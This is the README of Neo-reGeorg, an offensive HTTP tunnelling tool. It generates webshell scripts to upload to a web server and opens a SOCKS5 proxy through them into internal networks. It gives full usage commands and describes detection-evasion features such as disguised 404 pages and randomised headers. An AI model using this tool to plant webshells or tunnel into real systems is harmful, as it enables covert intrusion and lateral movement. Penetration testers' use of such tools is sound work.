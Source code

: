 # Neo-reGeorg

[简体中文](README.md)　｜　[English](README-en.md)

**Neo-reGeorg** is a project designed to actively restructure [reGeorg](https://github.com/sensepost/reGeorg) with the aim of:

* Improve tunnel connection security
* Improve usability and avoid feature detection
* Improve the confidentiality of transmission content
* Solve the existing problems of reGeorg and fix some small bugs

> This tool is limited to safety research and teaching, and the user assumes all legal and related responsibilities caused by the use of this tool! The author does not bear any legal and related responsibilities!

## Version

3.0.0 - [Change Log](CHANGELOG-en.md)


## Features

* Transfer content through out-of-order base64 encryption
* GET request response can be customized (such as masquerading 404 pages)
* HTTP Headers instructions are randomly generated to avoid feature detection
* HTTP Headers can be customized
* Custom HTTP response code
* Multiple URLs random requests
* Server-node DNS resolution
* Compatible with python2 / python3
* High compatibility of the server environment
* (only php) Refer to [pivotnacci](https://github.com/blackarrowsec/pivotnacci) to implement a single `SESSION` to create multiple TCP connections to deal with some load balancing scenarios
* aspx/ashx/jsp/jspx no longer relies on Session, and can run normally in harsh environments such as cookie-free
* Support HTTP forwarding, coping with load balancing environment


## Dependencies

* [**requests**] - https://github.com/kennethreitz/requests




## Basic Usage

* **Step 1.**
Set the password to generate tunnel server.(aspx|ashx|jsp|jspx|php) and upload it to the web server.
```ruby
$ python neoreg.py generate -k password

    [+] Create neoreg server files:
       => neoreg_servers/tunnel.jspx
       => neoreg_servers/tunnel_compatibility.jspx
       => neoreg_servers/tunnel.php
       => neoreg_servers/tunnel.ashx
       => neoreg_servers/tunnel.aspx
       => neoreg_servers/tunnel.jsp
       => neoreg_servers/tunnel_compatibility.jsp

```

* **Step 2.**
Use `neoreg.py` to connect to the web server and create a socks5 proxy locally.
```ruby
$ python3 neoreg.py -k password -u http://xx/tunnel.php
+------------------------------------------------------------------------+
  Log Level set to [DEBUG]
  Starting socks server [127.0.0.1:1080]
  Tunnel at:
    http://xx/tunnel.php
+------------------------------------------------------------------------+
```

   Note that if your tool, such as `nmap` does not support socks5 proxy, please use [proxychains](https://github.com/rofl0r/proxychains-ng) 




## Advanced Usage

1. Support the generated server, by default directly requesting and responding to the specified page content (such as a disguised 404 page)
```ruby
$ python neoreg.py generate -k <you_password> --file 404.html
$ python neoreg.py -k <you_password> -u <server_url> --skip
```

2. For example, the server WEB needs to set the proxy to access
```ruby
$ python neoreg.py -k <you_password> -u <server_url> --proxy socks5://10.1.1.1:8080
```

3. To set `Authorization`, there are also custom `Header` or `Cookie` content.
```ruby
$ python neoreg.py -k <you_password> -u <server_url> -H 'Authorization: cm9vdDppcyB0d2VsdmU=' --cookie "key=value;key2=value2"
```

4. Need to disperse requests, upload to multiple paths, such as memory-webshell
```ruby
$ python neoreg.py -k <you_password> -u <url_1> -u <url_2> -u <url_3> ...
```

5. Turn on http forwarding to cope with load balancing
```ruby
$ python neoreg.py -k <you_password> -u <url> -r <redirect_url>
```

6. Use the port forwarding function, do not start the socks5 service ( 127.0.0.1:1080 -> ip:port )
```ruby
$ python neoreg.py -k <you_password> -u <url> -t <ip:port>
```

* For more information on performance and stability parameters, refer to -h help information
```ruby
# Generate server-side scripts
$ python neoreg.py generate -h
    usage: neoreg.py [-h] -k KEY [-o DIR] [-f FILE] [-c CODE] [--read-buff Bytes]

    Generate neoreg webshell

    optional arguments:
      -h, --help            show this help message and exit
      -k KEY, --key KEY     Specify connection key.
      -o DIR, --outdir DIR  Output directory.
      -f FILE, --file FILE  Camouflage html page file
      -c CODE, --httpcode CODE
                            Specify HTTP response code. When using -r, it is
                            recommended to <400. (default: 200)
      --read-buff Bytes     Remote read buffer. (default: 513)

# Connection server
$ python neoreg.py -h
    usage: neoreg.py [-h] -u URI [-r URL] [-t IP:PORT] -k KEY [-l IP] [-p PORT]
                     [-s] [-H LINE] [-c LINE] [-x LINE] [--local-dns]
                     [--read-buff Bytes] [--read-interval MS]
                     [--write-interval MS] [--max-threads N] [-v]

    Socks server for Neoreg HTTP(s) tunneller. DEBUG MODE: -k
    (debug_all|debug_base64|debug_headers_key|debug_headers_values)

    optional arguments:
      -h, --help            show this help message and exit
      -u URI, --url URI     The url containing the tunnel script
      -r URL, --redirect-url URL
                            Intranet forwarding the designated server (only
                            jsp(x))
      -t IP:PORT, --target IP:PORT
                            Network forwarding Target, After setting this
                            parameter, port forwarding will be enabled
      -k KEY, --key KEY     Specify connection key
      -l IP, --listen-on IP
                            The default listening address.(default: 127.0.0.1)
      -p PORT, --listen-port PORT
                            The default listening port.(default: 1080)
      -s, --skip            Skip usability testing
      -H LINE, --header LINE
                            Pass custom header LINE to server
      -c LINE, --cookie LINE
                            Custom init cookies
      -x LINE, --proxy LINE
                            Proto://host[:port] Use proxy on given port
      --local-dns           Use local resolution DNS
      --read-buff Bytes     Local read buffer, max data to be sent per
                            POST.(default: 2048 max: 2600)
      --read-interval MS    Read data interval in milliseconds.(default: 300)
      --write-interval MS   Write data interval in milliseconds.(default: 200)
      --max-threads N       Proxy max threads.(default: 1000)
      -v                    Increase verbosity level (use -vv or more for greater
                            effect)
```


## Remind

* When running `neoreg.py` with high concurrency on Mac OSX, a large number of network requests will be lost. You can use `ulimit -n 2560` to modify the "maximum number of open files" of the current shell.



## TODO

* HTTP body steganography

* Transfer Target field steganography



## License

GPL 3.0


## Stargazers over time

[![Stargazers over time](https://starchart.cc/L-codes/Neo-reGeorg.svg)](https://starchart.cc/L-codes/Neo-reGeorg)
